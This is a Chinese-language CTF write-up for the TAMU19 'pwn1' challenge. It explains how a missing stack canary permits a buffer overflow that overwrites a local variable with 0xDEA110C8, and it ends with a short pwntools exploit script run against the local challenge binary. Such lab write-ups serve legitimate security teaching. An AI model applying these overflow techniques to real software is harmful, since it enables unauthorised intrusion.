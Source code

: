 # 2.1 Tamu19 pwn1
这个案例和前一个boi的一样，首先查看elf的开启了哪些安全特性

![image](images/82229180.png)



canary没有开启，可以直接溢出覆盖栈地址

反汇编查看pwn1的代码

![image](images/82287235.png)

从代码中可以看到，需要连续输入3次正确的结果，第一第二次可以跳过

第三个判断为v5 == -559869752，一个16进制数，在汇编代码中可以得到这个数为0xDEA110C8

![image](images/82374797.png)

我们要做的就是覆盖掉v5（默认值为0）这个地址上的数据，把值改成0xDEA110C8，可控的变量为s，要修改的变量为var\_10，查看这两个变量的偏移地址

var\_10 偏移地址为0x10, 类型为dd，占用4个字节

![image](images/82459318.png)

s 偏移地址为0x3B, 类型为db， 占用1个字节

![image](images/82507819.png)

gdb中内存的位置如下：

![image](images/08eadca3-64b4-40ca-a1f5-fa049dc10b28.png)



所以两者直接偏移地址相差为0x2b，所以要覆盖掉var\_10的值，就绪要填充 0\* 0x2b + 4byte(0xDEA110C8) 的数据，使用pwntools来生成，exploit如下

```python
#!/usr/bin/env python

from pwn import *

payload = '0' * 0x2b
payload += p32(0xDEA110C8)

target = process('./pwn1')

p1 = 'Sir Lancelot of Camelot'

p2 = 'To seek the Holy Grail.'

target.sendline(p1)
target.sendline(p2)
target.sendline(payload)

target.interactive()
```
![image](images/82648937.png)